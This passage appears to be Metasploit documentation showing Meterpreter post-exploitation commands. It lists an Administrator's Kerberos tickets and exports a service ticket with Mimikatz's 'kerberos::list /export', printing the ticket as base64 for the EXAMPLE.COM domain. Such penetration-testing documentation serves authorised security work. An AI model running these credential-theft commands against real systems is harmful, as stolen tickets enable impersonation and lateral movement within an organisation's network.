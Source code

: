 Tickets in the current session can be viewed like so:

```msf
meterpreter > kerberos_ticket_list
[+] Kerberos tickets found in the current session.
[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 12/16/2022 3:35:41 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : krbtgt/EXAMPLE.COM @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : https/TSTWLPT1000000 @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
```

**Export Service Tickets**

```msf
meterpreter > kiwi_cmd kerberos::list /export

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : https/TSTWLPT1000000 @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
====================
Base64 of file : 1-40a10000-Administrator@https~TSTWLPT1000000-EXAMPLE.COM.kirbi
====================
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
MDAwMA==
```
